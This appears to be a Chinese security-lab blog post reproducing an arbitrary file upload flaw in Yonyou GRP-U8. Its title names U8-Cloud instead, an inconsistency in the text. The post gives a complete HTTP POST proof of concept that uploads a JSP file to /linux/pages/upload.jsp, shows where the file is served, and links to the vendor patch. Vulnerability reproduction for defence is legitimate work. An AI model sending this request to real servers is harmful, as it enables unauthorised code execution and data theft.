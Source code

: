 #  【成功复现】用友U8-Cloud 任意文件上传漏洞

原创 弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#POC 66 个

#复现 78 个

#漏洞 106 个

#网络安全 96 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![]()  
 **0x00写在前面**  

 **      本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**

![]()  
 **0x01漏洞介绍**

  

用友GRP-U8行政事业财务管理软件是用友公司专注于国家电子政务事业，基于云计算技术所推出的新一代产品。

在用友GRP-U8的upload接口存在未验证任意文件上传漏洞，非法攻击者可简单利用漏洞上传文件，非法获取数据或对数据库服务器产生影响，存在一定的安全隐患。

  

![]()  
 **0x02影响版本**  

用友GRP-U8

![]()  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![]()

2.对漏洞进行复现

  **POC  （POST）**

漏洞复现

        POST请求

  *   *   *   *   *   *   *   *   *   * 

    
    
    POST /linux/pages/upload.jsp HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0Connection: closeContent-Length: 31Content-Type: application/x-www-form-urlencodedfilename: 88888.jspAccept-Encoding: gzip  
    <% out.println("28921ojow~");%>

       文件上传成功

![]()

      3.文件解析路径

  * 

    
    
    http://x.x.x.x:8088/linux/xxx.jsp

  

![]()  
 **0x04修复建议**  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://security.yonyou.com/

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![]()

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


